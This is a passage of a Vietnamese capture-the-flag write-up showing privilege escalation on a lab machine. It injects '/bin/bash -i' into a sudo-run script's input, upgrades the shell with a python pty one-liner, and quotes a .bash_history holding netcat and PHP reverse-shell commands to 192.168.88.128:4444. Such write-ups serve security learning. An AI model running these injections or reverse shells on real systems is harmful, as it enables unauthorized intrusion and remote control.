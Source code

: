 Thay vì nhập ngày tháng thì tôi sẽ nhập 1 injection đơn giản

```python
dale@TEAM:~$ sudo -u gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: gyles
Enter 'date' to timestamp the file: /bin/bash -i
The Date is uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
gyles
```

Khi nhập command thì nó sẽ hiện kết quả chứ không hiện dữ liệu tôi nhập vào, config lại shell với python: `python3 -c 'import pty;pty.spawn("/bin/bash")'`

```python
gyles@TEAM:~$ ls
user.txt
gyles@TEAM:~$ pwd
/home/dale
gyles@TEAM:~$ cd /home/gyles
gyles@TEAM:~$
gyles@TEAM:/home/gyles$ ls -la
total 48
drwxr-xr-x 6 gyles gyles   4096 Jan 17  2021 .
drwxr-xr-x 5 root  root    4096 Jan 15  2021 ..
-rwxr--r-- 1 gyles editors  399 Jan 15  2021 admin_checks
-rw------- 1 gyles gyles   5639 Jan 17  2021 .bash_history
-rw-r--r-- 1 gyles gyles    220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 gyles gyles   3771 Apr  4  2018 .bashrc
drwx------ 2 gyles gyles   4096 Jan 15  2021 .cache
drwx------ 3 gyles gyles   4096 Jan 15  2021 .gnupg
drwxrwxr-x 3 gyles gyles   4096 Jan 15  2021 .local
-rw-r--r-- 1 gyles gyles    807 Apr  4  2018 .profile
drwx------ 2 gyles gyles   4096 Jan 15  2021 .ssh
-rw-r--r-- 1 gyles gyles      0 Jan 17  2021 .sudo_as_admin_successful
```

Thử xem file *.bash_history* vì tôi thấy dung lượng của nó khá lớn. Phân tích qua file này thì tôi để ý thấy có 1 thư mục mà user này sử dụng để thực hiện `netcat` trên quyền *root* 

```python
su root
cd /opt/admin_stuff/
ls -la
id
clear
./nc -e /bin/bash 192.168.88.128 4444
ls -la
sudo chmod g+s nc 
ls
ls -la
./nc -e /bin/bash 192.168.88.128 4444
ls -la
cat /etc/crontab 
php
which php
ls -la
php -r '$sock=fsockopen("192.168.88.128",4444);exec ("/bin/sh -i <&3 >&3 2>&3");'
exit
```
